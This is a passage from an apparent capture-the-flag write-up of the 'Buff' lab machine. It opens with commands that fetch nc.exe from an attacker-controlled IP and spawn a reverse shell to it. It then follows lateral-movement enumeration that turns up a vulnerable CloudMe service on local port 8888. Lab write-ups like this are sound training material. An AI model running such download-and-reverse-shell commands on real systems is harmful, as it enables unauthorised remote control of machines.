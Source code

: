 ```
C:\xampp\htdocs\gym\upload> powershell -c "curl.exe http://10.10.14.127/nc.exe -o netcat.exe" 
C:\xampp\htdocs\gym\upload> netcat.exe 10.10.14.127 9001 -e cmd.exe
```

After a while listening , I recieve a reverse shell:

![rev](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/rev.png)

## Lateral Movement

While enumerating the box I came across an interesting **.exe** file under ``C:\Users\shaun\Downloads`` :

```
C:\Users\shaun\Documents>cd ../Downloads
cd ../Downloads

C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   9,756,262,400 bytes free
```

Again , searching the software on **exploitdb** for a possible vulnerability leads to this :

![cloudme](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/cloudme.png)

By the first view, it seems like a **Buffer Overflow** vulnerability laying on **CloudMe** which should probably be listening on a local port on the machine. 

We can confirm that by executing this command :

```
C:\Users\shaun\Downloads>netstat -an | findstr "LISTENING"

  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
  [...]
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING
  TCP    [::]:135               [::]:0                 LISTENING
  TCP    [::]:445               [::]:0                 LISTENING
  [...]
```

It appears that the vulnerable software is listening under port **8888** on ``localhost``. 
